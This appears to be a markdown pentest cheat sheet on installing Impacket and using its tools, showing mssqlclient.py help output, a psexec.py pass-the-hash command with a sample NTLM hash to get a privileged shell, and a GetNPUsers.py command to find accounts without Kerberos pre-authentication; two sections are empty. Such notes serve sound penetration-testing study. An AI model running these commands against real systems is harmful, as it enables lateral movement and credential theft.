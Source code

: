 # Using Impacket Tools

## Setup

1. Download latest release of **Impacket** from [SecureAuthCorp/impacket GitHub](https://github.com/SecureAuthCorp/impacket) repository

        $ wget https://github.com/SecureAuthCorp/impacket/releases/download/impacket_0_9_21/impacket-0.9.21.tar.gz
        $ tar zxvf impacket-0.9.21.tar.gz
        $ cd impacket-0.9.21

2. Create a Python virtual environment
   
        $ python3 -m venv /path/to/new_virtual_environment
        $ source /path/to/new_virtual_environment/bin/activate

3. Setup the environment

        $ python -m pip install .

4. Start using the Python tools that are available inside the **examples** folder 

        $ ./examples/mssqlclient.py 
        Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

        usage: mssqlclient.py [-h] [-port PORT] [-db DB] [-windows-auth] [-debug] [-file FILE] [-hashes LMHASH:NTHASH] [-no-pass]
                            [-k] [-aesKey hex key] [-dc-ip ip address]
                            target

        TDS client implementation (SSL supported).

        positional arguments:
        target                [[domain/]username[:password]@]<targetName or address>

        optional arguments:
        -h, --help            show this help message and exit
        -port PORT            target MSSQL port (default 1433)
        -db DB                MSSQL database instance (default None)
        -windows-auth         whether or not to use Windows Authentication (default False)
        -debug                Turn DEBUG output ON
        -file FILE            input file with commands to execute in the SQL shell

        authentication:
        -hashes LMHASH:NTHASH
                                NTLM hashes, format is LMHASH:NTHASH
        -no-pass              don't ask for password (useful for -k)
        -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target
                                parameters. If valid credentials cannot be found, it will use the ones specified in the command line
        -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
        -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the
                                target parameter

## mssqlclient.py



## secretsdump.py



## psexec.py

Use Impacket's `psexec.py` to gain a **privileged shell**

    $ psexec.py domain.local/administrator@10.10.10.4 -hashes <NTML hash>:<NTLM hash>
    $ psexec.py domain.local/administrator@10.10.10.4 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18

## GetNPUsers.py

Check if **Kerberos pre-authentication** has been *disabled* for an account

    GetNPUsers.py domain.local/username -request -no-pass -dc-ip 10.10.10.4
